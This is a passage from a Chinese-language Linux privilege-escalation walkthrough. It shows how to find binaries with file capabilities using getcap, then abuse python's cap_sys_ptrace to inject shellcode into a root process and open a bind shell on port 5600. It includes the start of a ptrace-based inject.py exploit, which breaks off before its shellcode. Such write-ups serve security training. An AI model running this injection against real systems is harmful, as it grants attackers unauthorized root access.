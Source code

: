 ### **1、使用如下命令发现具有Capabilities特殊操作权限的程序**

/usr/sbin/getcap -r / 2>/dev/null      #-r 递归查询

![img](assets/1695389620497-48a8c88f-ef41-49c6-a5c7-96c89caea16b.png)

### 2、建立攻击脚本(https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c )

通过上图我们发现python具备cap_sys_ptrace+ep 能力，所以我们可以对其进行利用然后进行提权。这里需要用到一个提权脚本，这个脚本的作用就是对root权限的进程注入python类型shellcode，利用pythono具备的cap_sys_ptrace+ep 能力实现权限提升，该脚本如果执行成功，会在靶机的本地监听5600端口，我们也可以修改shellcode部分让其监听其他端口。

在kali上编辑以下代码，并起名为exp.py，打开http服务，并利用靶机进行下载

```plain
# inject.py# The C program provided at the GitHub Link given below can be used as a reference for writing the python script.
# GitHub Link: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c 

import ctypes
import sys
import struct

# Macros defined in <sys/ptrace.h>
# https://code.woboq.org/qt5/include/sys/ptrace.h.html

PTRACE_POKETEXT   = 4
PTRACE_GETREGS    = 12
PTRACE_SETREGS    = 13
PTRACE_ATTACH     = 16
PTRACE_DETACH     = 17

# Structure defined in <sys/user.h>
# https://code.woboq.org/qt5/include/sys/user.h.html#user_regs_struct

class user_regs_struct(ctypes.Structure):
    _fields_ = [
        ("r15", ctypes.c_ulonglong),
        ("r14", ctypes.c_ulonglong),
        ("r13", ctypes.c_ulonglong),
        ("r12", ctypes.c_ulonglong),
        ("rbp", ctypes.c_ulonglong),
        ("rbx", ctypes.c_ulonglong),
        ("r11", ctypes.c_ulonglong),
        ("r10", ctypes.c_ulonglong),
        ("r9", ctypes.c_ulonglong),
        ("r8", ctypes.c_ulonglong),
        ("rax", ctypes.c_ulonglong),
        ("rcx", ctypes.c_ulonglong),
        ("rdx", ctypes.c_ulonglong),
        ("rsi", ctypes.c_ulonglong),
        ("rdi", ctypes.c_ulonglong),
        ("orig_rax", ctypes.c_ulonglong),
        ("rip", ctypes.c_ulonglong),
        ("cs", ctypes.c_ulonglong),
        ("eflags", ctypes.c_ulonglong),
```